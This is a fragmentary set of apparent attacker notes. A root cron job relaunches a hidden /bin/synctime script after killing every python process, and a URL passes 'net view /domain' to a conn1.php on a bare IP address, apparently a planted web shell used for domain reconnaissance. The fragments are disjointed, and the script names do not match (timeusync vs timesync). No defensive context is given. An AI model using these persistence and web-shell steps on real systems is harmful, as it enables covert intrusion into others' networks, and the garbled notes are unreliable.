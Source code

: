 /bin/synctime:

#!/usr/bin/env python

.....................

/bin/timeusync:

#!/bin/sh

kill -9 `pgrep python` > /dev/null 2>&1;/bin/synctime



vim /etc/crontab

36 23 * * * root /bin/timesync

//service cron status


view-source:http://114.6.45.106/conn1.php?cmd=net%20view%20/domain
